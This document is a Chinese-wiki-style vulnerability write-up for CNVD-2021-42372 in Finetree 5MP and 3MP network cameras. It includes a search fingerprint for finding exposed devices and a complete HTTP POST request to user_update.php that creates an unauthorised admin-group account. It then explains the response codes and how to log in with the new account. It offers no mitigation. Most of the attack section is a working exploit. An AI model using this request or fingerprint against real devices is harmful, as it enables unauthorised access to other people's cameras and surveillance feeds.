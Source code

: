 # Finetree 5MP camera user_pop.php Add vulnerability to any user CNVD-2021-42372

## Vulnerability Description

Finetree 5MP camera The user_pop.php file has unauthorized addition to any user. After the attacker adds it, he can obtain background permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Finetree 5MP</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Finetree 3MP</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Finetree-5MP-Network-Camera"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650596915704-1a1f5f17-da0a-46f7-878f-4e45d228b7b2.png)

File with vulnerability user_pop.php

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650596947183-6e5162c8-5039-47f7-9008-e1f06106a72f.png)

```java
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650597037790-9c10f375-9a20-4cb0-960e-c41c4962278d.png)

Returning 200 means the addition is successful, return 804 means the user will repeat. Use the added account to log in to the background.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650597298546-243cca11-64a9-40ca-8a1f-acc98d75c74a.png)